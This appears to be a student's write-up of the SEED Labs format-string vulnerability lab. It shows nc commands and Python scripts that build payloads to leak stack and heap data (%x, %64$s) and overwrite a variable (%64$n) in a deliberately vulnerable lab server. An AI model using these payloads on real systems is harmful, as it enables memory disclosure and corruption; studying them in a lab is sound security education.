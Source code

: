 # Format-String Vulnerability Lab

## Environment Setup

To begin our assignment, we need to turn off the address randomization using the following command

```bash
 $ sudo sysctl -w kernel.randomize_va_space=0
 ```

Before opening the terminals, it is important that we compile the program using the *"-z execstack"* option, which allows the stack to be executable.

In the following, we list some of the commonly used commands related to Docker and Compose. Since we are going to use these commands very frequently, we have created aliases for them in the .bashrcfile(in our provided SEEDUbuntu 20.04 VM).

```bash
$ dcbuild # Alias for: docket-compose build
$ dcup # Alias for: docket-compose up
$ dcdown # Alias for: docket-compose down
```

All the containers will be running in the background.  To run commands on a container, we often need to get a shell on that container.  We first need to use the"docker ps"command to find out the ID of the container, and then use "docker exec" to start a shell on that container. We have created aliases forthem in the .bashrcfile.

```bash
$ dockps # Alias for: docker ps --format "{{.ID}}  {{.Names}}"
$ docksh <id>  # // Alias for: docker exec -it <id> /bin/bash
```


# Task 1

Then, we open two terminals, one with the servers, using Docker from Seed-Labs, and another one to communicate with the servers. This allows us to see the exchange of messages between both sides. For example, when we send a string to the server using the command:

```bash
 $ echo 'hello' | nc 10.9.0.5 9090
 ```

We can see the following content appear on the other side:

![Message_setup](../docs/week7/task1_3.png)

From this, we can see some important addresses that we will be using in the following tasks, such as:

The Buffer Input Address;
The Secret Message Address;
The Frame Pointer;
The Target Variable's initial and final values.


To crash our program, firstly we created a file called task1.txt with the following content:

![CrashProg_Code](../docs/week7/task1_code.png)

Then, when we execute the code, our program will read values from the stack that are not valid memory addresses. The message *Returned Properly* did not appear, so we know that our program crashed, as expected.

![Crash_1](../docs/week7/task1.png)

![Crash_2](../docs/week7/task1_2.png)

# Task 2.A

To find out how many %x format specifiers we need to get the server program to print out the first four bytes of our input, we first used "AAAA" as input that we know is "414141" in hexadecimal.

The idea behind this is giving "AAAA" as input and then concatenate with many "%08x.

```bash
$ echo "AAAA%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X" | nc 10.9.0.5 9090
```

In the server, we get the following output:


![Task2A](../docs/week7/task2_a.png)

The final "41414141" is the string input adress. Between "AAAA" AND "41414141" there are 504 characters, and each adress has 8, so 504/8 = 63 adresses in the stack. We can conclude that to print the first 4 bytes of input is necessary 64 "%x".

# Task 2.B

For this task, we need to print the content of a string that is in the Heap in the adress 0x080b4008.

We created an auxiliar python scrip to insert the 64 "%s".

```
import sys

content = (0x080b4008).to_bytes(4,byteorder='little') + ("%64$s").encode('latin-1')

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

We know that by sending a "%s", printf function will read a string from an address. In the previous task, we learned that the number of "%x" needed to get to the beginning of the stack is 64.
By using the auxiliar script, we inserted the string adress followed by 64 "%s", so the format string can read from the adress and return the hidden message.

By executing the auxiliar scrip we get the following outputs:

![Task2B](../docs/logbook7/task2b_1.png)

![Task2B](../docs/logbook7/task2b_2.png)

The secret message is "A secret message".

# Task 3: Modifying the Server Program’s Memory

## Task 3.A: Change the value to a different value

In this task, we need to change the value of the target. The initial value is 0x11223344 and the adress is 0x080e5068.

The command "%n" in format strings, writes the number of characters written up to that point into the memory area of the argument passed as a parameter. The approach is very similar to the command in task 2.B, only instead of reading from the selected address, we will write.

To change the value of the target, we created the following python scrip:
```
import sys

content = (0x080e5068).to_bytes(4,byteorder='little') + ("%64$n").encode('latin-1')

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

![Task3A](../docs/logbook7/task3a_1.png)

![Task3A_1](../docs/logbook7/task3a.png)

After examining the output, we can see that the target variable value changed.